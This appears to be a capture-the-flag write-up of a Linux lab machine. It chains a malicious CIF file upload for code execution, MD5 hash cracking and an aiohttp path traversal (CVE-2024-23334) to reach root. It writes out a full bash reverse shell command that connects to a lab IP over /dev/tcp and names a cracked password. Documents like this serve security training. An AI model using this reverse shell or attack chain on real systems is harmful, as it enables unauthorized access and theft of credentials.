PWNED: 11/16/2024

<!-- USER -->
<!-- Initial Enumeration for user -->
## User

#### NMAP
##### **Command:** sudo nmap -sC -sV 10.10.11.38  
##### As with all boxes, the first command that is run is 'nmap'. Of the ports that were open, port 5000 seems the most promising as it is likely a webpage that we can exploit.
 

#### Dashboard



##### Upon opening the webpage in Firefox, a dashboard appears to take '.cif' files. This upload feature may be exploitable and needs to be looked at further to confirm this suspicion. For testing, I uploaded a test.cif file to ensure that the website is functioning properly before attempting to exploit it.
 

#### Test CIF Uploaded



##### This appears to be working properly as our test CIF with fake data was successfully opened.
 

#### Exploit POC



##### Upon searching exploits related to CIF files, the first results show an arbitrary code exection POC.
 



##### This Github shows a POC file that we can use to gain a reverse shell from the upload feature, by replacing 'touch pwned' with the reverse shell command.
 

#### File Creation



##### My go-to for creating reverse shells is revshells.com. In this case, I went with an interactive bash shell since this is a Linux box. Initially, my shell would not work, but with some trial and error, the following is what I came up with: 
##### '/bin/bash /c 'exec /bin/bash -i &>/dev/tcp/10.10.14.12/4444 <&1'

##### It runs /bin/bash -c '' where inbetween the quotes you can put a command that will be executed. 'exec' replaces the current process running with the command following, in this case, "/bin/bash -i" which launches an interactive bash shell. "&>/dev/tcp/10.10.14.12/4444" is used to redirect standard output and standard error to the newly created network connection (reverse shell to your IP/Port). "<&1" effectively links the victim's shell input with the attacker's output.
 

#### Exploit



##### After crafting the payload, the reverse shell was created by uploading the malicious CIF file and clicking the 'View' button to run the file on the victim machine. This was caught by a Netcat listener on my machine on port 4444 gaining us access to the system as the 'app' user.



 
 

#### Upgrading the Reverse Shell
##### To upgrade my reverse shell, I used "python3 -c "import pty;pty.spawn('/bin/bash')" so that I could navigate a bit easier. 
 

#### Interesting Database File



##### I came accross a .db file which contained various users and hashes. There were a few users and hashes, but the one that ended up being of use was 'rosa'. 
 

#### Breaking the Hash


##### I used 'hashes.com/en/tools/hash_identifier' to identify the type of hash that is used for the password encryption. In this case, it's MD5 which is not secure and can easily be broken.



 



 

##### **Command:** hashcat -a 0 -m 0 rosa_hash /usr/share/wordlists/rockyou.txt
##### Hashcat was used to break the md5 encryption using the rockyou wordlist. The '-a 0' flag was used to set the attack mode to straight, and '-m 0' was used to set the hash type to MD5. In this case, the password was 'unicorniosrosados' which only took a few seconds to crack, and an online tool like hash killer could most likely also be used. 
 

#### Privilege Escalation


##### Now that we have Rosa's credentials, I SSH'd into the machine as 'rosa' and prepared to escalate my privileges to 'root'. I went ahead and copied the user.txt file from the user's home directory.



##### I ran some basic commands using my cheat sheet that I created for linux privilege escalation. The most basic being 'sudo -l', and as you can see, we cannot run anything as sudo as the rosa user. 


##### Upon running netstat to view the open ports on the machine, port 8080 is also opened on localhost. This is a common port used for alternative web services like proxies, development, and other applications. I decided to use 'chisel' to get a better view and to see if there's anything I could exploit. 



##### To get the chisel client on the victim machine, I used a python3 server and wget to grab my chisel file in the /tmp/ directory on the victim machine. 



##### This shows the command that I used to initate a chisel client on the victim machine.


##### This shows the command that I used to initate a chisel server on my attacking machine. 


 



##### Going to localhost on port 8080 now shows what the webpage of the alternative web server is hosting on the victim's machine. Not a whole lot was found here, but I did go through the services and the source code to see if there was anything interesting. I attempted to use my wappalyzer extension and I ran scanning tools, like nuclei and nmap on the web service. I also used gobuster to see if there were any other hidden/interesting directories.



##### The web server appears to be using aiohttp/3.9.1, which is great as we can search to see if it's exploitable.



##### Doing a quick google search shows that it's exploitable to CVE-2024-23334, which is a path traversal vulnerability. This can be used to print /etc/shadow, where the root password can be broken, or if you're lazy (but I like to say more efficient since the goal of a CTF is to get the flag), simply print /root/root.txt to show the root flag. 



##### As you can see, if I run a url encoded path traversal curl command, it shows the contents of /etc/passwd (this has the ability to print any file as root). Note that this only works with the /assets/ directory (or at least I couldn't get it to work otherwise), which was found during the gobuster directory brute force which showed as a 403. 



##### Nice! We printed root.txt by using the path traversal vulnerability!

 
 
